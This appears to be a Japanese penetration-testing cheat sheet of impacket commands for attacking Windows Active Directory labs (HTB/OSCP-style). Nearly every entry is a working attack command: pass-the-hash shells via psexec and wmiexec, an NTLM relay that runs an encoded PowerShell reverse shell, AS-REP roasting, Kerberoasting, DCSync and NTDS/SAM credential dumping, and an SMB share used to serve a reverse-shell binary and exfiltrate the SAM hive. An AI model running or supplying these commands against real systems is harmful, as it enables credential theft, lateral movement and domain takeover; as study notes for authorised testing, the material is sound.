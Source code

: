 # impacket

## コマンド集

1. PtHを使って管理者権限のシェルを取る。この時、NTLMハッシュの形式は**LMハッシュ:NTハッシュ**の形式になっている。  
NTLMハッシュのみを使用する場合は、LMハッシュ部分は0で埋めておく。
```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
```

2. wmiexecを使ってPtWを行う
```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212
``

3. Net-NTLMv2 relay攻撃を行うため、中継元のWindows端末からdirなどでSMB接続をこの端末にさせ、コマンドを192.168.201.212という横展開先に送り付ける。  
これで、192.168.201.212上でPowerShellのリバースシェルコマンドを実行してシェルを取れる。-encの後ろはb64
```
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.201.212 -c "powershell -enc JABjAGwAaQBlAG..."
```

4. AS-REP Roastingの攻撃をADに対して実行する。ここで出力されたユーザ名はKerberos preauthenticationが無効になっていることを示し、AS-REQ Roasting攻撃に脆弱な可能性があることを示す。  
-dc-ip => DCのIPアドレスを指定  
-outputfile => AS-REPハッシュがhashcatの形式で保存される出力ファイルの名前を入力する。  
-request => TGTを要求する  
domain/user => 認証のターゲットにするユーザとドメイン名
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```

4.1 ユーザ名をLdap経由で取得した後、匿名でそのユーザのAS-REPハッシュが取得できないかを調べる。  
ユーザ名は事前に列挙してからリストを作成してパスワードスプレーをする。
```
sudo impacket-GetNPUsers -usersfile ./usernames.txt -no-pass -dc-ip <targetIP> htb.local/ > asrep-roasting
```

5. Kerberoastingを実行するために、TGSを取得してhashcatで解析できる形でサービスチケットのハッシュを出力する。
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

6. DCSYNC攻撃をkaliからターゲットのwindowsに対して実行する。  
ここのユーザは、ドメイン上でDCSyncの権限をそもそも持っている必要があり、そのユーザの権限を借りてkaliからDCSyncの要求をしている点に注意。  
-just-dc-userの引数にターゲットのユーザ名daveを、dcsyncする際に要求を送る側には権限が必要なので、その権限を持つユーザをcorp.com/jeffadminとしてる。  
```
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70
```
もしくは
```
impacket-secretsdump -just-dc htb.local/hoge:password123@10.10.10.161
```

7. impacketを使ってNTLMハッシュでAdministratorユーザとしてセッションをとる。横展開で使える。
```
/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.209.73
```

8. WindowsのシャドウコピーからダンプしたバックアップファイルをKaliのローカルで解析して資格情報を抽出する。これでNTLMハッシュやKerberosのキーが取得できる。
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

9. SMBサーバとして起動する。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```  
以下をKaliで行うと、ターゲットWindows上で//<kali_IP>/evil/hoge.exeとしてreverseshellを実行できる。
```
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support evil $PWD
```

Kali側でサーバとして待ち受けてからWindwos側で以下みたいなコマンドをやるとファイルをコピーして送信できる。
```
copy C:\Users\THMBackup\sam.hive \\10.13.58.5\public\ \\10.13.58.5\public\ 
```

10. SAMやSYSTEMからダンプしたハッシュをもとに、kaliからDC等のマシンへpsexecでシェルをとれる。ターゲットがwin-rmを許可していないときとかはこっちで接続。
```
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc tom_admin@10.10.127.140
```

11. windows環境でSQLとかを見つけて認証情報も持っていれば、mssqlclientでアクセスできる。  
evil-winrmやsmbでアクセスできないときに便利。
```
impacket-mssqlclient oscp.exam/sql_svc@10.10.157.148 -windows-auth
```
